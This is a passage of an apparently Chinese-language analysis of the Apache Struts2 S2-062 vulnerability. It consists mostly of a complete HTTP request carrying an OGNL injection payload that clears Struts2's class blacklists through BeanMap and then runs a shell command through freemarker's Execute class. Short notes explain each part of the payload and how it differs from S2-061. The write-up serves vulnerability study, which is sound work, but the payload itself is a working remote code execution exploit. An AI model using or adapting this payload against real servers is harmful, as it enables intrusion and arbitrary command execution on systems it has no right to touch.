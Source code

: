 ```
POST /index.action HTTP/1.1
Host: 192.168.142.128:18080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=node01c863u8lzu8eyn099a51bjyie0.node0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1191

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id" %{
(#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +
(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +
(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) ==
true).toString().substring(0,0) +
(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) ==
true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))
}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF—
```

### payload分析

- InstanceManager：用于实例化任意对象 
- BeanMap：可以调用对象的getter、setter， setBean()可以更新对象 
- valueStack：ONGL的根对象 
- memberAccess：控制对象的访问 setExcludedPackageNames() setExcludedClasses()清除黑名单 
- Execute类：黑名单类，exec可以执行Shell

### 总结

使用BeanMap绕过了Struts2的黑名单（沙盒 机制），并实例化了可以执行代码的类

## s2-061和s2-062的区别

```
#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache. commons.collections.BeanMap')).toString().substring(0,0)

s2-062改成了：
#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0)
```
